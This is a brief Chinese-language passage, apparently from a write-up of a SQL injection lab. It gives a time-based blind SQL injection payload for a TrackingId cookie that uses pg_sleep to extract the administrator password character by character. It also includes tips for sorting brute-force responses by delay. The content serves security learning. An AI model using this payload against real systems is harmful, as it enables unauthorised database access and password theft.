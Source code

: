 最后看密码字符串

```sql
TrackingId=0OMaZLwZ5zwL3ZDM'|| (SELECT CASE WHEN (username = 'administrator' AND substring(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```

爆破检查超过10秒的响应

记录一个使用小技巧

将超过10秒的高亮，然后仅显示高亮，再按payload排序

![](https://pic.imgdb.cn/item/674ad7fad0e0a243d4db700a.png)
